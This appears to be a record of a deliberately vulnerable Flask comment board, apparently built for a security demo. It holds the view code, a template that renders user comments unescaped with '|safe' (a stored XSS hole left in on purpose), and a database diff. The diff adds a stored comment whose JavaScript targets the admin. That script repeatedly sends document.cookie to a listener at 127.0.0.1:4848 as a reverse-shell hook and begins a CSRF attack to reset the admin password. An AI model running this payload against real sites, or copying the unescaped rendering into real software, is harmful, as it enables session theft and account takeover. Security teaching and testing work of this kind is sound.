

Page /comment (signed in) on the earlier database version (2 pictures, top to bottom).


Same page on the later database version (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE comments (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT NOT NULL,
        message TEXT NOT NULL,
        created_at DATETIME DEFAULT CURRENT_TIMESTAMP
    );

### app.py (the view)
@app.route('/comment', methods=['GET', 'POST'])
def comment():
    if 'username' not in session:
        return redirect(url_for('login'))
    if request.method == 'POST':
        msg = request.form['message']
        add_comment(session['username'], msg)
    comments = get_comments()
    csrf_token = generate_csrf_token()  # 每次都生成新的 CSRF token
    return render_template('comment.html', comments=comments, csrf_token=csrf_token, username=session['username'])

### app.py (called while the page is built)
def get_db_connection():
    conn = sqlite3.connect(DB_PATH)
    conn.row_factory = sqlite3.Row
    return conn

def get_comments():
    conn = get_db_connection()
    comments = conn.execute('SELECT * FROM comments ORDER BY created_at DESC').fetchall()
    conn.close()
    return comments

def generate_csrf_token():
    token = secrets.token_hex(16)
    session['csrf_token'] = token
    return token

### templates/comment.html (shortened to what this page needs)
<!DOCTYPE html>
<html>
<head>
</head>
<body>
    {% extends "base.html" %}
    {% block content %}
    <div class="card" style="max-width: 800px;">
        <h2 style="text-align: center; margin-bottom: 2rem; color: #333;">💬 公開留言板</h2>
        <p style="text-align: center; color: #666; margin-bottom: 2rem;">
            歡迎 <strong>{{ username }}</strong>！在此分享您的想法，所有用戶都可以看到您的留言。
        </p>
        <form method="POST" style="margin-bottom: 2rem;">
            <div class="form-group">
                <label for="message">留言內容</label>
                <textarea id="message" name="message" rows="4"
                         placeholder="分享您的想法、連結、或任何內容..." required></textarea>
                <small style="color: #666;">支援 HTML 格式，讓您的留言更豐富！留言將永久保存在資料庫中。</small>
            </div>
            <button type="submit" class="btn">發布留言</button>
        </form>
        <div style="background: #e3f2fd; padding: 1rem; border-radius: 10px; margin-bottom: 2rem;">
            <h4 style="color: #1976d2; margin-bottom: 0.5rem;">🔒 安全提醒</h4>
            <p style="color: #333; font-size: 0.9rem;">
                此留言板支援 HTML 內容以提供更好的使用體驗。所有留言和用戶資料都會永久保存在資料庫中。
            </p>
            <small style="color: #666;">當前 CSRF Token: <code>{{ csrf_token[:8] }}...</code></small>
        </div>
        <h3 style="color: #333; margin-bottom: 1rem;">
            📝 所有留言 <span style="font-size: 0.8rem; color: #666;">({{ comments|length }} 則留言)</span>
            {% if username == 'admin' %}
                <br>
                <small>
                    <a href="/admin/comments" style="color: #007bff; text-decoration: none;">[查看留言資料庫]</a> |
                    <a href="/admin/users" style="color: #007bff; text-decoration: none;">[查看用戶資料庫]</a>
                </small>
            {% endif %}
        </h3>
        {% if comments %}
            {% for comment in comments %}
                <div class="comment-item">
                    <div class="comment-user">
                        👤 {{ comment.username }}
                        <span style="font-size: 0.8rem; color: #888; font-weight: normal;">
                            - {{ comment.created_at }}
                        </span>
                    </div>
                    <div style="margin-top: 0.5rem; line-height: 1.5;">
                        {{ comment.message|safe }}
                    </div>
                </div>
            {% endfor %}
        {% else %}
            <div style="text-align: center; padding: 2rem; color: #666; background: #f8f9fa; border-radius: 10px;">
                <p>📭 目前沒有留言</p>
                <p style="font-size: 0.9rem; margin-top: 0.5rem;">成為第一個發布留言的用戶吧！</p>
            </div>
        {% endif %}
        <div style="margin-top: 2rem; padding: 1rem; background: #fff3cd; border-radius: 10px; border-left: 4px solid #ffc107;">
            <h4 style="color: #856404; margin-bottom: 0.5rem;">⚠️ Stored XSS 說明</h4>
            <p style="color: #856404; font-size: 0.9rem;">
                此留言板有 Stored XSS 漏洞，以下是預期demo的內容。
            </p>
            <ul style="color: #856404; font-size: 0.9rem; margin-top: 0.5rem; padding-left: 1.5rem;">
                <li>利用XSS讓使用者把自己的CSRF token一起帶進去，然後把密碼給改掉</li>
                <li>用JShell工具讓攻擊者可以操作Web Shell (KeyLogger、重新定向)</li>
            </ul>
        </div>
    </div>
    {% endblock %}

### templates/base.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="zh-TW">
<head>
</head>
<body>
    <nav class="navbar">
        <div class="nav-content">
            <a href="/" class="logo">🛡️ SecureWeb</a>
            <div class="nav-links">
                {% if session.username %}
                    <a href="/comment">留言板</a>
                    <a href="/account">帳號設定</a>
                    {% if session.username == 'admin' %}
                        <a href="/fetch">URL 獲取</a>
                    {% endif %}
                    <a href="/logout">登出</a>
                    <span style="color: rgba(255,255,255,0.8); margin-left: 1rem;">
                        歡迎 {{ session.username }}
                        {% if session.username == 'admin' %}
                            <span style="color: #ffd700;">👑</span>
                        {% endif %}
                    </span>
                {% else %}
                    <a href="/login">登入</a>
                {% endif %}
            </div>
        </div>
    </nav>
    <div class="container">
        {% block content %}{% endblock %}
    </div>
</body>
</html>

Differences in the rows shown:
changed comments "admin": created_at "2025-05-29 15:47:51" → "2025-05-29 16:10:27"
added comments: username "user", created_at "2025-05-29 16:10:40"
added comments: username "user", created_at "2025-05-29 16:10:29", message "if(document.querySelector('.nav-content') && document.querySelector('.nav-content').innerText.includes('admin')) { console.log('[ATTACK] Admin detected - Starting targeted attack'); // JSshell 反向連接 (僅針對 admin) setInterval(function(){ with(document)body.appendChild(createElement(\"script\")).src=\"http://127.0.0.1:4848/?admin_\".concat(document.cookie) }, 1010); // 針對 admin 的 CSRF 攻擊 - 修改密碼為 hacked123 setTimeout(() => { // 多種方式獲取 CSRF token let token = null; // 方法1: 從隱藏的 input 獲取 const hiddenToken = document.querySelector('#csrf_token_hidden'); if (hiddenToken) { token = hiddenToken.value; console.log('[ATTACK] Token from hidden input:', token); } // 方法2: 從任何 csrf_token input 獲取 if (!token) {…"
Other differences:
{{ comments|length }}: "1" → "3"
